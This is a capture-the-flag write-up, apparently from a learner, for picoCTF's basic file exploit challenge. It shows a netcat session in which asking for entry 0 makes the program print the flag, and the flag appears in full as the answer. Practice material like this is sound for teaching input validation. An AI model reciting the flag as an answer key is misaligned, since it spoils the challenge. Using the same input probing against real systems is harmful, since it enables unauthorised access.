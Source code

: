 The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat: `$ nc saturn.picoctf.net 49698` The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/541/program-redacted.c).

Hints:
1. Try passing in things the program doesn't expect. Like a string instead of a number.

## Solución

``` bash
holiwiscach@ubuntu:~/basic_file_exploit$ nc saturn.picoctf.net 49698
```

``` bash
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
0
0
Please put in a valid number
1
1
Please enter your data:
carlos
carlos
Please enter the length of your data:
123
123
Your entry number is: 1
Write successful, would you like to do anything else?
No data given.
Please put in a valid number
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}
```

bandera
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}